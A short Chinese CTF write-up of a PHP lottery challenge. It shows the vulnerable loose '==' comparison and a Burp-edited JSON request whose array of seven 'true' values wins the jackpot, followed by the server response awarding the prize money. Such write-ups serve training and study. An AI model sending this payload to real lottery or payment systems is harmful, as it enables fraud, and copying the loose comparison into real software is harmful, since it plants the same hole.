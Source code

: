 ```php
	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
    .....
}
```

一开始看注释以为会不会是random_num的锅。。。

结果发现buy里面用的是“==”弱类型比较

然后似乎可以直接用true搞（json也支持bool量存储）

>  在PHP弱类型的比较中 true==[1-9]=="[1-9]"  

用Burp Suite 抓包修改为构造数组刷钱就行了

```html
Request
POST /api.php HTTP/1.1
Host: 111.198.29.45:39302
Content-Length: 63
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://111.198.29.45:39302
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36
DNT: 1
Content-Type: application/json
Referer: http://111.198.29.45:39302/buy.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"action":"buy","numbers":[true,true,true,true,true,true,true]}

Response
HTTP/1.1 200 OK
Date: Mon, 18 Nov 2019 16:17:03 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.5
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 116
Connection: close
Content-Type: application/json

{"status":"ok","numbers":[true,true,true,true,true,true,true],"win_numbers":"0915821","money":200018,"prize":200000}
```
